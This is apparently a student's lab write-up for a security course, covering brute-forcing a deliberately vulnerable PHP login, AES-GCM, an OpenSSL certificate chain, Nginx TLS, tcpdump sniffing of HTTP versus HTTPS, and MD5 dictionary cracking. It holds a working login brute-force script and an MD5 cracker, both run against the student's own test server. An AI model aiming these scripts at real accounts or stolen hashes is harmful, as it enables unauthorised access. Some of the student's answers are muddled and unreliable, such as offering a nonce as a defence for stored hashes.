# KN04: Verschlüsselung & Kryptographie
- Lernziele:
  - Sie können die historische Entwicklung von Verschlüsselungsverfahren (Caesar → Vigenère → DES → AES) erklären und zeigen, warum ältere Verfahren unsicher sind.
  - Sie können eine Datei mit AES-256 symmetrisch ver- und entschlüsseln.
  - Sie können den Unterschied zwischen symmetrischer und asymmetrischer Verschlüsselung sowie das Schlüsselaustauschproblem erklären.
  - Sie können mit OpenSSL eine PKI-Zertifikatskette (Root CA → Server-Zertifikat) erstellen.
  - Sie können Nginx mit TLS konfigurieren und die Zertifikatskette im Browser prüfen.
  - Sie können den Unterschied zwischen MD5 und SHA-256 erklären und zeigen, warum MD5 nicht mehr verwendet werden soll.
***
### A) Brute-Force-Angriff auf ein Web-Login
- first task was to open port 80, which I already did in KN03.
- then I had to create a `login appp`
  - create dirs → `mkdir -p ~/bruteforce-app && cd ~/bruteforce-app`
  - add file → `nano index.php`
  - add this content to file → 
```php
<?php
// Benutzerdatenbank (in einer echten App in der Datenbank)
$users = [
    'admin' => 'sunshine',
];

$error = '';
$success = false;

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $username = $_POST['username'] ?? '';
    $password = $_POST['password'] ?? '';

    // SICHERHEITSLÜCKE: Kein Rate-Limiting, kein Account-Lockout
    if (isset($users[$username]) && $users[$username] === $password) {
        $success = true;
    } else {
        $error = 'Ungültiger Benutzername oder Passwort.';
        http_response_code(401);
    }
}
?>
<!DOCTYPE html>
<html lang="de">
<head>
    <meta charset="UTF-8">
    <title>M183 Login</title>
    <style>
        body { font-family: Arial, sans-serif; display: flex; justify-content: center;
               padding-top: 80px; background: #f0f2f5; }
        .box { background: white; padding: 2rem; border-radius: 8px;
               box-shadow: 0 2px 8px rgba(0,0,0,.15); width: 320px; }
        h2 { margin-top: 0; color: #333; }
        input { width: 100%; padding: 8px; margin: 6px 0 14px;
                border: 1px solid #ccc; border-radius: 4px; box-sizing: border-box; }
        button { width: 100%; padding: 10px; background: #0066cc;
                 color: white; border: none; border-radius: 4px; cursor: pointer; }
        .error   { color: #c00; margin-bottom: 10px; }
        .success { color: #080; font-size: 1.1em; }
    </style>
</head>
<body>
<div class="box">
    <h2>Login</h2>
    <?php if ($success): ?>
        <p class="success">✓ Login erfolgreich! Willkommen, <?= htmlspecialchars($_POST['username']) ?>.</p>
    <?php else: ?>
        <?php if ($error): ?>
            <p class="error"><?= htmlspecialchars($error) ?></p>
        <?php endif; ?>
        <form method="POST">
            <label>Benutzername</label>
            <input type="text" name="username" value="admin" required>
            <label>Passwort</label>
            <input type="password" name="password" required>
            <button type="submit">Anmelden</button>
        </form>
    <?php endif; ?>
</div>
</body>
</html>
```
  - start docker container → 
```yaml
docker run -d \
  --name bruteforce-app \
  -p 80:80 \
  -v ~/bruteforce-app:/var/www/html \
  php:8.2-apache
```
- now the app is running on `http://<ec2-ip>`. 
- I gave in a wrong password to test it out. 
- now I had to create a file with a list of passwords to later brute-force the login.
```bash
cat > ~/bruteforce-app/passwords.txt << 'EOF'
password
123456
admin
letmein
qwerty
welcome
dragon
master
monkey
login
passw0rd
iloveyou
sunshine
shadow
superman
batman
trustno1
hello123
secret
password1
EOF
```
- but to use that, I had to install the python library → `sudo apt install python3-pip -y && pip3 install requests` and create a new script file → `nano ~/bruteforce-app/brute.py` 
- in that file I had to paste this → 
```python
import requests
import time
import sys

TARGET  = "http://localhost/index.php"
USER    = "admin"
PWFILE  = "/home/ubuntu/bruteforce-app/passwords.txt"

def try_login(password):
    resp = requests.post(TARGET, data={"username": USER, "password": password}, timeout=5)
    return resp.status_code == 200 and "erfolgreich" in resp.text

with open(PWFILE) as f:
    passwords = [line.strip() for line in f if line.strip()]

print(f"Ziel:    {TARGET}")
print(f"User:    {USER}")
print(f"Wörter:  {len(passwords)}")
print(f"{'-'*40}")

start = time.time()
found = None

for i, pw in enumerate(passwords, 1):
    sys.stdout.write(f"\r[{i:>3}/{len(passwords)}] Teste: {pw:<20}")
    sys.stdout.flush()
    if try_login(pw):
        found = pw
        break

elapsed = time.time() - start
print()
print(f"{'-'*40}")

if found:
    print(f"✓ Passwort gefunden: '{found}'")
    print(f"  Versuche: {i} | Zeit: {elapsed:.2f}s")
else:
    print("✗ Kein Passwort gefunden.")
```
- at the end to initiate the brute-force attack, I had to run the script → `python3 ~/bruteforce-app/brute.py`  
- Q&A
- Wie viele Versuche und wie viele Sekunden hat der Angriff benötigt? Was würde passieren, wenn die Passwortliste statt 20 Einträgen 1 Million hätte (z.B. die bekannte rockyou.txt)? 
- it took `13` tries and `0.04s` to find the password. If the password list had 1 million entries, it would take significantly longer, potentially several minutes, it would depend on the server's response time.
- Welche zwei technischen Massnahmen hätten diesen Angriff verhindert oder massgeblich erschwert? (Hinweis: schauen Sie sich den Kommentar im PHP-Code an)
- `rate-limiting` and `account lockout` would have prevented or significantly hindered this attack.
- Warum ist das Passwort sunshine schwach – auch wenn es kein Wort wie password oder 123456 ist?
- it lacks complexity, like uppercase letters, numbers, and special characters. and it's a common word, not a unique or random string, making it easier to guess.
### B) AES-256 symmetrische Verschlüsselung
- for this task I had to download a phyton cryptography library → `sudo apt update && sudo apt install python3-pip -y && sudo apt install python3-cryptography`
- then I had to create an encryption script → `nano ~/aes_demo.py`
- and in that file I had to paste this code →
```python
import os
from cryptography.hazmat.primitives.ciphers.aead import AESGCM

# Schlüssel generieren (256 Bit = 32 Bytes)
key = AESGCM.generate_key(bit_length=256)
aesgcm = AESGCM(key)

# Nonce generieren (96 Bit = 12 Bytes, einmalig pro Verschlüsselung)
nonce = os.urandom(12)

# Klartextnachricht
plaintext = b"Dies ist eine geheime Nachricht fuer M183!"

# Verschlüsseln
ciphertext = aesgcm.encrypt(nonce, plaintext, None)

print(f"Klartext:        {plaintext.decode()}")
print(f"Schlüssel (hex): {key.hex()}")
print(f"Nonce (hex):     {nonce.hex()}")
print(f"Ciphertext (hex): {ciphertext.hex()}")
print(f"Ciphertext-Länge: {len(ciphertext)} Bytes\n")

# Entschlüsseln
decrypted = aesgcm.decrypt(nonce, ciphertext, None)
print(f"Entschlüsselt:   {decrypted.decode()}")

# Manipulations-Test: Ciphertext verändern
tampered = bytearray(ciphertext)
tampered[0] ^= 0xFF  # erstes Byte kippen
try:
    aesgcm.decrypt(nonce, bytes(tampered), None)
except Exception as e:
    print(f"\nManipulations-Test: {e}")
    print("→ GCM-Modus hat die Manipulation erkannt!")
```

- then I had to run the script → `python3 ~/aes_demo.py` 
- Q&A
  - Was ist ein Nonce und warum muss er für jede Verschlüsselung neu generiert werden?
  - `NOnce` is a **number used once** and it ensures that each encryption operation is unique, even if the same plaintext and key are used. Reusing a nonce can compromise the security of the encryption.
  - Was ist der Unterschied zwischen DES (56-Bit-Schlüssel) und AES-256 (256-Bit-Schlüssel) in Bezug auf Brute-Force-Resistenz?
  - the length of the key, since one is 56 bits and the other is 256 bits. so it's much harder to brute-force.
  - Was demonstriert der Manipulations-Test am Ende des Skripts? Welchen Vorteil bietet GCM gegenüber einfachem AES-CBC?
  - `AES-GCM` provides both encryption and integrity verification, meaning that if the ciphertext is altered, the decryption will fail. and `AES-CBC` does not provide integrity checks, it only encrypts the data, but it's worth using for local storage, but not for network communication. [source](https://security.stackexchange.com/questions/184305/why-would-i-ever-use-aes-256-cbc-if-aes-256-gcm-is-more-secure)
### C) PKI-Zertifikatskette mit OpenSSL
- now the main topic is PKI (Public Key Infrastructure) and how to create a certificate chain with OpenSSL.
- first I had to download OpenSSL → `sudo apt install openssl -y` and create a new directory `mkdir -p ~/pki/{ca,server} && cd ~/pki`
- then I had to create a Root CA [OpenSSL commands](https://wiki.openssl.org/index.php/Command_Line_Utilities) → 
```bash
# Private Key der Root CA → https://docs.openssl.org/master/man1/openssl-genrsa/
openssl genrsa -out ca/ca.key 4096

# Selbstsigniertes Root-Zertifikat (gültig 10 Jahre) → https://docs.openssl.org/master/man1/openssl-req/
openssl req -new -x509 -days 3650 -key ca/ca.key -out ca/ca.crt \
  -subj "/C=CH/ST=Zuerich/O=TBZ-M183-CA/CN=M183 Root CA"
``` 

- then I had to create a server-certificate →
```bash
# Private Key des Servers
openssl genrsa -out server/server.key 2048

# Certificate Signing Request (CSR) – Antrag an die CA
openssl req -new -key server/server.key -out server/server.csr \
  -subj "/C=CH/ST=Zuerich/O=TBZ-M183/CN=$(curl -s ifconfig.me)"
```

- now the goal was to sign the server-certificate with the Root CA → 
```bash
# CA stellt das Server-Zertifikat aus (gültig 1 Jahr) → https://docs.openssl.org/master/man1/openssl-x509/
openssl x509 -req -days 365 \
  -in server/server.csr \
  -CA ca/ca.crt -CAkey ca/ca.key -CAcreateserial \
  -out server/server.crt

# Zertifikatskette erstellen (Server + CA)
cat server/server.crt ca/ca.crt > server/chain.crt
```
- so what I did until now was:
  - create a Root CA (private key + self-signed certificate), which is for signing server certificates.
  - create a server certificate (private key + CSR), which is for the web server.
  - sign the server certificate with the Root CA and create a certificate chain (server + CA).
- Now I had to check the certificate chain with OpenSSL → 
```bash
# Zertifikat-Details anzeigen
openssl x509 -in server/server.crt -text -noout | grep -A5 "Subject\|Issuer\|Validity\|Public Key"

# Zertifikatskette verifizieren
openssl verify -CAfile ca/ca.crt server/server.crt
```
 
- Q&A
- Was ist der Unterschied zwischen einem selbstsignierten Zertifikat und einem CA-signierten Zertifikat?
- self-signed certificate is signed by the same person that created it, while a CA-signed certificate is signed by a trusted Certificate Authority (CA). so it's like if I signed my own ID card instead of having it signed by a government authority.
- Was enthält ein CSR (Certificate Signing Request) und wozu dient er?
- a `CSR` is a request to a CA to issue a certificate. it contains information about the entity requesting the certificate, such as the public key, organization name, and domain name. the CA uses this information to create and sign the certificate. before in this task I had to pass these subjects to the csr → `/C=CH/ST=Zuerich/O=TBZ-M183/CN=$(curl -s ifconfig.me)`
- Warum vertraut ein normaler Browser Ihrem selbst erstellten Zertifikat nicht, obwohl es technisch korrekt erstellt wurde?
- it depends, like with https, the browser has a list of trusted CAs. if the certificate is not signed by a CA that is in that list, the browser will not trust it. even if I created a technically correct certificate.
### D) Nginx mit TLS konfigurieren
- for this task first of all I had to open port 443 in the security group of the EC2 instance.
- then I had to run `nginx` with `TLS` in docker → 
```bash
docker run -d \
  --name nginx-tls \
  -p 443:443 \
  -v ~/pki/server/chain.crt:/etc/nginx/ssl/server.crt:ro \
  -v ~/pki/server/server.key:/etc/nginx/ssl/server.key:ro \
  -v ~/pki/ca/ca.crt:/etc/nginx/ssl/ca.crt:ro \
  nginx:alpine
```
- then for the nginx I had to create a new configuration file →
```bash
docker exec nginx-tls sh -c 'cat > /etc/nginx/conf.d/default.conf << '"'"'EOF'"'"'
server {
    listen 443 ssl;
    server_name _;

    ssl_certificate     /etc/nginx/ssl/server.crt;
    ssl_certificate_key /etc/nginx/ssl/server.key;
    ssl_protocols       TLSv1.2 TLSv1.3;
    ssl_ciphers         HIGH:!aNULL:!MD5;

    location / {
        return 200 "<h1>M183 KN03 – TLS funktioniert!</h1><p>Hybride Verschlüsselung aktiv.</p>";
        add_header Content-Type text/html;
    }
}
EOF'

docker exec nginx-tls nginx -s reload
```

- then I had to check the certificate in the browser by going to `https://<ec2-ip>`   
- Q&A
- Welche Informationen zeigt der Browser im Zertifikat-Dialog? Was davon haben Sie selbst in Aufgabe C definiert?
- it shows the `Issued To`, `Issued By`, `Validity Period`, the algorithm used `SHA-256`, and the `Fingerprint`. I defined the issued to, issued by, and validity period in task C.
- Warum erscheint trotz technisch korrektem Zertifikat eine Sicherheitswarnung?
- the browser does not trust the certificate because it is self-signed and not issued by a trusted CA. the browser has a list of trusted CAs, and since my CA is not in that list, it shows a warning.
- Erklären Sie anhand dieses Setups, wie hybride Verschlüsselung bei HTTPS funktioniert (Schlüsselaustausch vs. Datenverschlüsselung).
- the hybrid encryption in HTTPS works by using asymmetric encryption (public/private key) for the key exchange and symmetric encryption (AES) for the data encryption. when a client connects to a server, it uses the server's public key to encrypt a randomly generated symmetric session key. the server then uses its private key to decrypt the session key. once both parties have the session key, they use it to encrypt and decrypt the actual data being transmitted, which is much faster than using asymmetric encryption for all data.
### E) HTTP vs. HTTPS – Traffic live mitlesen
- `nmap` → shows open ports and services running on the target machine
- `tcpdump` → captures network traffic for analysis
- first I had to install nmap and tcpdump → `sudo apt install nmap tcpdump -y`
- then I had to scan my EC2 instance → `nmap -sV localhost` 
- Q&A 
  - Was zeigt nmap über Port 80 und Port 443? Welche Information erhält ein Angreifer bereits durch einen Port-Scan, bevor er auch nur eine einzige Anfrage an die App gestellt hat?
  - for port 80 → http service Apache httpd 2.4.67, and for port 443 → https/ssl nginx 1.31.2
- then I had to create two ssh connections, one for the tcpdump and one for the login-request
- in the terminal-1 I had to run → `sudo tcpdump -i any -A port 80 2>/dev/null`
- in the terminal-2 I had to send a login request → 
```bash
curl -s -o /dev/null -X POST http://44.204.100.19/ \
  -d "username=admin&password=sunshine"
```
- afterwards I had to check the terminal-1 and I could see the login request in plain text. 
- then I had exited the tcpdump with `Ctrl+C`
- Q&A
- Was genau ist im tcpdump-Output sichtbar? Markieren Sie die Zeile, die das Passwort im Klartext enthält.
- It shows the entire HTTP request, including the headers and the body.
- Was müsste ein Angreifer in einem realen Netzwerk tun, um diesen Traffic mitzulesen? (Stichwort: ARP-Spoofing / Man-in-the-Middle)
- all he needs to do is connect to the same network as the target and open a network sniffer to capture the traffic. if the traffic is not encrypted, he can see all the data in plain text. or he can perform a man-in-the-middle attack, where the client thinks it is talking to the server, but it is actually talking to the attacker, who then forwards the request to the server.
- now I had to repeat the same steps, but this time for port 443 (HTTPS)
- in the terminal-1 I had to run → `sudo tcpdump -i any -A port 443 2>/dev/null`
- in the terminal-2 I had to send a login request → 
```bash
curl -s -o /dev/null -k -X POST https://44.204.100.19/ \
  -d "username=admin&password=sunshine"
```
- and then I had to check the terminal-1 and I could see the login request, but this time it was encrypted. 
- Q&A
- Was ist der Unterschied zwischen dem tcpdump-Output auf Port 80 und Port 443? Was sieht ein Angreifer beim HTTPS-Traffic? 
- with https/tls the traffic is encrypted, so the attacker cannot see the actual data being transmitted.
- Was passiert beim TLS-Handshake, bevor die eigentlichen Daten (Benutzername/Passwort) übertragen werden? (Stichwort: Hybride Verschlüsselung aus Aufgabe D)
- so the TLS-Handshake establishes a secure connection between the client and server. it uses asymmetric encryption to exchange a symmetric session key, which is then used to encrypt the actual data being transmitted.
- Sie sehen bei Port 443 noch immer die IP-Adressen von Client und Server im tcpdump-Output. Warum ist das so, obwohl die Verbindung verschlüsselt ist?
- the IP addresses are part of the network layer, which is not encrypted by TLS. TLS only encrypts the application layer data, such as HTTP requests and responses.
### F) Hash-Funktionen: MD5 cracken mit Python
- I had to create a hash-data file, which contains 6 users with their MD5 hashed passwords → 
```bash
cat > ~/hashes_md5.txt << 'EOF'
alice:0571749e2ac330a7455809c6b0e7af90
bob:8621ffdbc5698829397d97767ac13db3
carol:f25a2fc72690b780b2a14e140ef6a9e0
dave:0d107d09f5bbe40cade3de5c71e9e9b7
eve:4ece57a61323b52ccffdbef021956754
frank:e9f5bd2bae1c70770ff8c6e6cf2d7b76
EOF
```
- then I had to create a `cracker-script` → `nano ~/crack_md5.py`
- and in that file I had to paste this code →
```python
import hashlib
import time

HASHFILE  = "/root/hashes_md5.txt"
WORDLIST  = "/root/bruteforce-app/passwords.txt"

# Hashes einlesen
targets = {}
with open(HASHFILE) as f:
    for line in f:
        user, h = line.strip().split(":")
        targets[h] = user

# Wordlist einlesen
with open(WORDLIST) as f:
    passwords = [l.strip() for l in f if l.strip()]

print(f"Ziel-Hashes:  {len(targets)}")
print(f"Wörterbuch:   {len(passwords)} Einträge")
print(f"{'-'*45}")

found = {}
start = time.time()

for pw in passwords:
    h = hashlib.md5(pw.encode()).hexdigest()
    if h in targets:
        user = targets[h]
        found[user] = pw
        print(f"  ✓  {user:<10}  {h}  →  '{pw}'")

elapsed = time.time() - start

print(f"{'-'*45}")
print(f"Geknackt: {len(found)}/{len(targets)} | Zeit: {elapsed*1000:.1f} ms")
print(f"Hashes/Sekunde: {len(passwords)/elapsed:,.0f}")
```
- then I had to run the script → `python3 ~/crack_md5.py`, I had an issue with the file path, so I had to change the file path in the script to `/home/ubuntu/...`. 
- now I had to check the user `franc` → `echo -n "correcthorsebatterystaple" | md5sum` 
- Q&A
- Welche Passwörter wurden geknackt, welche nicht? Was unterscheidet die knackbaren Passwörter von franks Passwort? 
- his password was not present in the `passwords.txt` wordlist, so it could not be cracked. the other passwords were present in the wordlist and were cracked successfully.
- Das Script hat nur 20 Wörter geprüft. Die bekannte rockyou.txt-Wortliste hat 14 Millionen Einträge. Schätzen Sie anhand der gemessenen Hashes/Sekunde: Wie lange würde der gleiche Angriff mit rockyou.txt dauern? 
- the script processed 20 passwords in 0.04 seconds, 0.04 * 25 = 1s | 20 * 25 = 500 passwords per second. so for 14 million entries, it would take 14,000,000 / 500 = 28,000 seconds, and 28,000 seconds / 60 = 466.67 minutes, and 466.67 minutes / 60 = 7.78 hours.
- Franks Passwort ist lang und steht in keiner Wortliste – trotzdem ist der MD5-Hash grundsätzlich knackbar, es fehlt nur die richtige Liste. Welche zwei Massnahmen aus KN04 machen gestohlene Hashes unbrauchbar, selbst wenn der Angreifer sie hat?
- the "NOnce" can be used to make the hash unique, since it is a number used once, and the "salt" can be used to make the hash unique, since it is a random value added to the password before hashing.
- now I had to update the "passwords.txt" and run the script again → 
```bash
cat >> ~/bruteforce-app/passwords.txt << 'EOF'
starwars
football
baseball
princess
abc123
passw0rd1
liverpool
qwertyuiop
654321
mustang
EOF

python3 ~/crack_md5.py
```

- and 1 more password was cracked.
- at last I had to run this →
```bash
python3 << 'EOF'
import time, hashlib, os
from cryptography.hazmat.primitives.kdf.scrypt import Scrypt

password = b"sunshine"

# MD5: wie schnell?
start = time.time()
for _ in range(1000000):
    hashlib.md5(password).hexdigest()
md5_per_sec = 1000000 / (time.time() - start)
print(f"MD5:    {md5_per_sec:>15,.0f} Hashes/Sekunde")

# scrypt (vergleichbar mit Argon2ID): wie schnell?
start = time.time()
for _ in range(10):
    kdf = Scrypt(salt=os.urandom(16), length=32, n=2**14, r=8, p=1)
    kdf.derive(password)
scrypt_per_sec = 10 / (time.time() - start)
print(f"scrypt: {scrypt_per_sec:>15,.1f} Hashes/Sekunde")

factor = md5_per_sec / scrypt_per_sec
print(f"\nMD5 ist {factor:,.0f}x schneller als scrypt.")
print(f"\nrockyou.txt (14 Mio. Eintraege) cracken:")
print(f"  Mit MD5:    {14000000 / md5_per_sec:.1f} Sekunden")
print(f"  Mit scrypt: {14000000 / scrypt_per_sec / 3600:.0f} Stunden")
EOF
```

- the goal of that script was to compare the speed of MD5 and scrypt hashing algorithms. MD5 is much faster than scrypt, which is designed to be slow to resist brute-force attacks. ***So one should not use MD5 for password hashing, but rather use a slow hashing algorithm like scrypt or Argon2ID.***